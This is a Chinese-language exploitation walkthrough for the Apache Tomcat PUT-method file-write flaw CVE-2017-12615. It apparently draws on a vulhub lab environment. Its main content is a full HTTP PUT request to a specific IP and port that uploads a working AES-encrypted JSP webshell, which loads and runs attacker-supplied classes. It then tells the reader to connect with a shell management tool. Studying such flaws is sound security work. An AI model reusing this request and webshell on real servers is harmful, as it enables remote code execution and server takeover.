 CVE-2017-12615

# Tomcat 任意写入文件漏洞

## 一、漏洞描述

Apache Tomcat 7.0.0到7.0.79版本中存在远程代码执行漏洞，当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法时，攻击者可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，文件中的代码被服务器执行。

## 二、影响版本

 Apache Tomcat >=7.0.0，<=7.0.79

## 三、利用流程

1 此漏洞对应的名称为 Tomcat 任意写入文件漏洞 (CVE-2017-12615)![avatar](/12615-1.png)
2 访问其如图所示

![avatar](/12615-2.png)
3 直接抓包，修改请求方式为 PUT，并且设置文件名为1.jsp(名字随意)，然后填充 shell(jsp shell即可)文件内容，发送成功后，服务器返回状态码201

![avatar](/12615-3.png)

```
PUT /1.jsp/ HTTP/1.1
Host: 118.193.36.37:29618
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 611

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

4 访问1.jsp,存在

![avatar](/12615-4.png)

5 使用 shell 管理工具连接即可

![avatar](/12615-5.png)

参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2017-27472

https://vulhub.org/#/environments/tomcat/CVE-2017-12615/